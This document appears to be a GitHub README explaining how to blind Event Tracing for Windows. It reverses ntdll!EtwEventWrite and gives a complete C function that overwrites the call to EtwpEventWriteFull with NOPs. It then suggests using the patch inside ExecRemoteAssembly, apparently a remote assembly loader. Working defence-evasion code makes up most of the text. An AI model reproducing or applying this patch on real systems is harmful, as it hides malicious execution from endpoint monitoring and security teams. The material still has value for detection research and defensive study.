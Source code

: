 # Patching ETW 

### Event Tracing for Windows (ETW) provides a mechanism to trace and log events that are raised by user-mode applications and kernel-mode drivers.  
### ntdll!EtwEventWrite is responsible for writing an event , it's not actually the function that do the Event Writing job, by reversing it, we can see that it calls ntdll!EtwpEventWriteFull that do the actual Event Writing :  
  
![IDAetw](https://user-images.githubusercontent.com/110354855/198856050-d5a3d460-0ad7-494b-abb8-018333d2f497.png)  
   
### this call is done at offset (0x214 -  0x1f0 = 0x24) and it takes 5 bytes, the idea here is to write a program that identify 0xe8 the opcode of the call instruction and overwrite this call memory with 5 bytes , so that the call will never done  
  

![TheCall](https://user-images.githubusercontent.com/110354855/198856198-a66c74e6-5833-47d4-a82c-1646206bf61b.png)

  
![EtwPatch](https://user-images.githubusercontent.com/110354855/198856224-12901961-150b-4116-946f-ad149705dc96.png)

### Here is the full Patch function :  
```c
void patchEtwpEventWriteFull(OUT HANDLE& hProc) {

    void* etwAddr = GetProcAddress(GetModuleHandle(L"ntdll.dll"), "EtwEventWrite");

    for (BYTE offset = 0; offset <= 100; offset++) {
        if (*((PBYTE)etwAddr + offset) == 0xe8 && *((PBYTE)etwAddr + offset + 9) == 0xc3) {
            char etwPatch[] = { 0x90, 0x90, 0x90, 0x90, 0x90 };

            DWORD lpflOldProtect = 0;
            unsigned __int64 memPage = 0x1000;
            void* etwAddr_bk = (void*)(((INT_PTR)etwAddr + offset));;

            NTSTATUS NtProtectStatus1 = NtProtectVirtualMemory(hProc, (PVOID*)&etwAddr_bk, (PSIZE_T)&memPage, 0x04, &lpflOldProtect);
            if (!NT_SUCCESS(NtProtectStatus1)) {
                printf("[!] Failed in NtProtectVirtualMemory1 (%u)\n", GetLastError());
                return;
            }

            NTSTATUS NtWriteStatus = NtWriteVirtualMemory(hProc, (LPVOID)((INT_PTR)etwAddr + offset), (PVOID)etwPatch, sizeof(etwPatch), (SIZE_T*)nullptr);
            if (!NT_SUCCESS(NtWriteStatus)) {
                printf("[!] Failed in NtWriteVirtualMemory (%u)\n", GetLastError());
                return;
            }

            NTSTATUS NtProtectStatus2 = NtProtectVirtualMemory(hProc, (PVOID*)&etwAddr_bk, (PSIZE_T)&memPage, lpflOldProtect, &lpflOldProtect);
            if (!NT_SUCCESS(NtProtectStatus2)) {
                printf("[!] Failed in NtProtectVirtualMemory2 (%u)\n", GetLastError());
                return;
            }
        }
        if (*((PBYTE)etwAddr + offset) == 0xc3) {
            break;
        }
    }
    

    std::cout << "[+] Patched etw!\n";

}
```
### Let's test it inside [ExecRemoteAssembly](https://github.com/D1rkMtr/ExecRemoteAssembly)  

